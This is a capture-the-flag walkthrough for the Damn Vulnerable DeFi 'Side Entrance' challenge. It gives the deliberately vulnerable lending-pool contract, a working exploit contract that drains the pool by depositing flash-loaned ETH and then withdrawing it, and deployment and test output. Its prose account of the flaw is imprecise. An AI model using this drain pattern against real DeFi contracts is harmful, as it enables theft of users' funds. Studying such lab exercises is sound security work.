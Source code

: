 <img src="https://github.com/wasny0ps/Damn-Vulnerable-DeFi/blob/main/src/4.png">

# Target Contract Review

Given contract.

**SideEntranceLenderPool.sol**

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

/**
 * @title SideEntranceLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract SideEntranceLenderPool {
    mapping(address => uint256) private balances;

    error RepayFailed();

    event Deposit(address indexed who, uint256 amount);
    event Withdraw(address indexed who, uint256 amount);

    function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        
        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore)
            revert RepayFailed();
    }
}

```

`deposit()` :  This function allows users to deposit Ether into the lending pool. The deposited Ether is added to the user's balance.

`withdraw()` : Users can withdraw their deposited Ether from the lending pool. The function transfers the Ether from the user's balance back to their address.

`flashLoan()` : This function is the vulnerable part of the contract. It allows anyone to borrow a specified amount of Ether from the lending pool. The borrower must implement the execute() function in the IFlashLoanEtherReceiver interface to define the logic for the flash loan.

Challlenge's message:

> A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.
It has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
Starting with 1 ETH in balance, pass the challenge by taking all ETH from the pool.

# Subverting

The SideEntranceLenderPool contract is part of the Damn Vulnerable DeFi project and is used to simulate a lending pool where users can deposit and withdraw funds. However, this contract has a vulnerability that allows an attacker to exploit it and borrow more funds than they actually have.


The vulnerability in this contract arises from the fact that the flashLoan() function does not check if the borrower has sufficient funds to repay the loan. This allows an attacker to borrow a large amount of Ether from the pool, manipulate the borrowed funds, and then repay the loan with the manipulated funds.

```solidity
pragma solidity ^0.8.0;

import "../side-entrance/SideEntranceLenderPool.sol";

contract AttackSideEntrance{

    SideEntranceLenderPool pool;

    function attack(address _pool)external payable{
        pool = SideEntranceLenderPool(_pool);
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    function execute()external payable{
        pool.deposit{value: msg.value}();
    }

    fallback() external payable{}

}
```

```js
const AttackFactory = await ethers.getContractFactory('AttackSideEntrance', deployer);
attack = await AttackFactory.deploy();
await attack.connect(player).attack(pool.address);
```


```powershell
 [Challenge] Side entrance
    ✔ Execution (44ms)


  1 passing (1s)

Done in 2.56s.
```
